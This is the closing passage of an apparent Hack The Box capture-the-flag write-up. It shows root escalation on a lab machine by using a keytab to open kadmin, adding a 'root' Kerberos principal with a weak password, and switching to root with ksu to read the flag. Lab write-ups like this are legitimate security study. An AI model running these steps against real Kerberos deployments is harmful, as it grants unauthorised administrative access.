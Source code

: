 For more information about **kadmin** go to this [website](https://web.mit.edu/kerberos/krb5-1.12/doc/admin/admin_commands/kadmin_local.html)

Run the following to run the kadmin console:
```
[admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
Couldn't open log file /var/log/kadmind.log: Permission denied
Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.

```

Now lets add a new principal and give it an easy password:
```
kadmin:  add_principal root
No policy specified for root@REALCORP.HTB; defaulting to no policy
Enter password for principal "root@REALCORP.HTB": 
Re-enter password for principal "root@REALCORP.HTB": 
Principal "root@REALCORP.HTB" created.

```
What we can do now is exit out of **kadmin** console and run **ksu**. What **ksu** does is
running su using Kerberos:
```
kadmin:  exit
[admin@srv01 etc]$ ksu
WARNING: Your password may be exposed if you enter it here and are logged 
         in remotely using an unsecure (non-encrypted) channel. 
Kerberos password for root@REALCORP.HTB: : 
Authenticated root@REALCORP.HTB
Account root: authorization for root@REALCORP.HTB successful
Changing uid to root (0)
[root@srv01 etc]# 

```
And there it is! Now let's get that last flag!
```
[root@srv01 etc]# cd /root
[root@srv01 ~]# ls
anaconda-ks.cfg  root.txt
[root@srv01 ~]# cat root.txt
c97762a4b7e7fe22b[...]
```
And there you have it! Not an easy box but nevertheless I have learned a lot! :)

See you on the next hacking adventure!

















